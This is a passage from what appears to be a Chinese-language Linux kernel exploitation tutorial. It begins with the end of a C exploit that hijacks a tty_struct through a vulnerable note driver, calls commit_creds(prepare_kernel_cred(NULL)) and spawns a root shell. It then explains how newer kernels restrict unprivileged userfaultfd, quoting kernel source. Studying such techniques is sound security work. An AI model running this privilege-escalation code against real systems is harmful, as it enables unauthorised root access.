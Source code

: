 ```c
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();

    return 0;
}
```

## 新版本內核對抗 userfaultfd 在 race condition 中的利用

正所謂“沒有萬能的銀彈”，可能有的人會發現在較新版本的內核中 userfaultfd 系統調用無法成功啓動：

![uffd_failed](figure/uffd_failed.png)

這是因爲在較新版本的內核中修改了變量 `sysctl_unprivileged_userfaultfd` 的值：

> 來自 linux-5.11 源碼`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```
